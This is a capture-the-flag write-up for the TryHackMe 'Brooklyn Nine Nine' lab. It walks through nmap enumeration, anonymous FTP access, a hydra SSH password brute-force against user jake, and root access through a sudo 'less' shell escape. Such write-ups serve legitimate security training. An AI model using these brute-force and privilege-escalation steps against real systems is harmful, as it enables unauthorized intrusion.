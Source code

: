 # Brooklyn Nine Nine | https://tryhackme.com/room/brooklynninenine
![b99](https://i.imgur.com/hJToewe.png)



## Enumeration 
```
nmap -v -A -T4 -p- 10.10.147.67

21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

We have ftp anon login so next ftp to it and get the note_to_jake.txt.
```
![b99](https://i.ibb.co/m9139St/d.png)

```
~$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
so weak password huh? 
``
fredi@index:~$ hydra -l jake -P wordlists/rockyou.txt ssh://10.10.239.250 -t 20

attacking ssh://10.10.239.250:22/

[22][ssh] host: 10.10.239.250   login: jake   password: <redacted>
``
Then ssh into the machine.
:~$ ssh jake@10.10.239.250

## Priviledge Escalation
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
    ``` 
so no need for sudo password for "less" ok.
https://gtfobins.github.io/gtfobins/less/

jake@brookly_nine_nine:~$ sudo less /etc/profile
!/bin/sh

And Thats IT we have root ! Now go get the flags!

